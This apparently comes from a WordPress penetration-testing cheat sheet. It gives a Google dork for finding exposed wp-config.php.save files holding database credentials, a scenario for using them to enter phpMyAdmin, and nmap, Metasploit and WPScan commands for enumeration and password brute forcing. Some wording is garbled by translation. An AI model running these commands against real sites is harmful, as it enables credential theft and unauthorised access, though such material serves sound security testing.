 # wordpress1


My google dork has been published now.

inurl:wp-config.php.save

Exploitation scenario:
(This is the exact scenario of my recent finding)

1. *.target[.]com/phpmyadmin
(Asking for username & password)

2. *.target[.]com/wp-config.php
(Blank page, got nothing)

3. *.target[.]com/wp-config.php.save
(Found database credential)

4. Applied on Step-1
(Access granted)


cheetsheet for wordpress

Version and theme detection using http-wordpress-info script

nmap -sV --script http-wordpress-info

* Password selection by dictionaries

nmap -p80 --script http-wordpress-brute --script-args 'userdb=users.txt,passdb=passwords.txt' example.com

Metasploit:
* Module for determining the version
auxiliary/scanner/http/wordpress_scanner

* Module for defining username
auxiliary/scanner/http/wordpress_login_enum
WPScan:

* Listing the installed plugins:
wpscan --url www.exmple.com --enumerate p;

* Enumeration of the installed themes
wpscan --url www.exmple.com --enumerate t:;

* Transfer set timthumbs:
wpscan --url www.example.com --enumerate tt;

* Defining username
wpscan --url www.example.com --enumerate u:;

* Password guessing dictionary for user admin:
wpscan --url www.example.com --wordlist wordlist.txt --username admin;

* Selection of the password using the username ligament / password with the number of streams of 50:
wpscan --url www.example.com --wordlist wordlist.txt --threads 50

Famous wordlist for brute force -- https://github.com/danielmiessler/SecLists
